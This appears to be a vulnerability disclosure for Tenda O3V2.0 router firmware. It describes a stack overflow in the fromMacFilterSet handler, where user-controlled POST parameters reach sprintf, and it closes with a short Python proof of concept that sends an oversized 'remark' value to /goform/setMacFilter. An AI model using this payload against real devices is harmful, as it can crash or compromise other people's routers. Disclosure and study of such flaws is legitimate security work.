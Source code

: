 ## Overview

- Firmware download website: https://www.tenda.com.cn/download/detail-2832.html

## Affected version

O3V2.0 V1.0.0.10(2478)

## Vulnerability details

In the O3V2.0 V1.0.0.10(2478) firmware has a stack overflow vulnerability in the `fromMacFilterSet` function. The `v25, v28` variable receives the `status, remark` parameter from a POST request. However, since the user can control the input of `status, remark`, the statement `sprintf` can cause a buffer overflow. The user-provided  `status, remark` can exceed the capacity of the `v75` array, triggering this security vulnerability.

![image-20240719003903758](https://raw.githubusercontent.com/abcdefg-png/images2/main/image-20240719003903758.png)

![image-20240719003804007](https://raw.githubusercontent.com/abcdefg-png/images2/main/image-20240719003804007.png)

![image-20240719003852096](https://raw.githubusercontent.com/abcdefg-png/images2/main/image-20240719003852096.png)

## POC

```python
import requests

ip = "192.168.84.101"
url = "http://" + ip + "/goform/setMacFilter"
payload = b"a"*2000

data = {"mode": "3", "remark": payload}
response = requests.post(url, data=data)
```

![image-20240714213455164](https://raw.githubusercontent.com/abcdefg-png/images2/main/image-20240714213455164.png)
